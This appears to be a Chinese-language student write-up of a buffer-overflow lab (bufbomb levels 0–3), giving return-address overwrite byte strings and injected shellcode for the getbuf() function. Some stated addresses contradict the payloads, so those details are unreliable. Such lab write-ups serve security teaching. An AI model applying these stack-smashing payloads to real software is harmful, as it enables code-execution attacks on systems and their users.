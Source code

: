 Level 0

本实验室需要我们在getbuf()函数执行返回之后不返回正常的地址，而是转去执行smoke函数。查看汇编代码得到smoke函数的入口地址为0x08048c18,调用getbuf函数时输入字符串存放位置为$epb-0x28.返回地址为$ebp+4.则得到要输入的字节码应该是44个00.

[![gpJFcd.png](https://z3.ax1x.com/2021/04/26/gpJFcd.png)](https://imgtu.com/i/gpJFcd)

所以我们构造的序列应该是

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 18 8c 04 08
```

Level 1

这段程序是执行getbuf()函数后不返回到正常的返回地址，而是去执行fizz函数，而且要将cookie值作为参数传给fizz函数。

[![giC0B9.md.png](https://z3.ax1x.com/2021/04/28/giC0B9.md.png)](https://imgtu.com/i/giC0B9)

分析fizz函数，如图可以看到入口地址为0x8048c42，参数的存放位置应该是$ebp+0x8，所以我们要修改返回地址使其指向fizz函数，再继续修改栈中的值，将cookie传给fizz函数。生成的cookie值为0x53f78a46。

构造序列为： 

```
 00 00 00 00 00 00 00 00 00 00
 00 00 00 00 00 00 00 00 00 00
 00 00 00 00 00 00 00 00 00 00
 00 00 00 00 00 00 00 00 00 00
 00 00 00 00 6f 90 04 08 00 00
 00 00 46 8a f7 53 
```

Level 2

该程序是让getbuf()函数返回后执行bang()函数，但是在执行bang函数之前需要将全局变量global_value变为我们自己userid的cookie。

[![giRNGT.md.png](https://z3.ax1x.com/2021/04/28/giRNGT.md.png)](https://imgtu.com/i/giRNGT)

从图中可以知道bang函数入口地址为0x8048c9d，根据cmp指令可以知道cookie存储的位置为0x804d108,global_value的地址0x80d100。

```
    mov 0x804d108,%eax
    mov %eax,0x804d100
    push $0x8048c9d
    ret
```

上面代码执行的是修改global_value的值，并将bang函数的起始地址压入栈并返回，用于执行后跳转到bang函数。用gcc和objdump指令可以生成本机器的二进制代码。因为已经实现了修改值和跳转的功能，我们需要将该代码防止在buf中，并让系统跳转到该段代码的起始处执行。根据level0可以知道buf距离ebp有0x28个字节，通过gdb调试获取执行到getbuf时寄存器内，可以计算出buf起始地址为0x55683458，所以我们构造的序列为

```
a1 08 d1 04 08 a3 00 d1
04 08 68 9d 8c 04 08 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 58 34 68 55
```

Level 3

该实验与level2相似，需要修改getbuf()返回值为对应cookie，恢复test函数中的%ebp寄存器内容，然后返回到接下去test()函数执行位置正常执行。通过gdb调试，结合过程调用中old ebp和正常返回地址距离当前%ebp分别为0和4字节。所以获得了old ebp内容为0x556834b0，正常下一条指令地址为0x80484be.

根据设置getbuf()返回值，重建ebp,返回test()函数的汇编代码获取二进制代码

```
a1 08 d1 04 08   		mov 0x804d108,%eax
bd b0 34 68 55  		mov $0x556834b0,%ebp
68 be 8d 04 08   		push $0x8048dbe
c3					   ret
```

第一行命令为设置返回值为cookie

第二行命令为重建ebp指针，使得程序返回test()时能正常执行

第三行命令为设置返回为test()中正常执行的下一行地址

第四行将栈中返回地址弹出，并且将eip指向该地址。

构造序列为

```
a1 08 d1 04 08 bd b0 34 
68 55 68 be 8d 04 08 c3 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00  
00 00 00 00 58 34 68 55
```

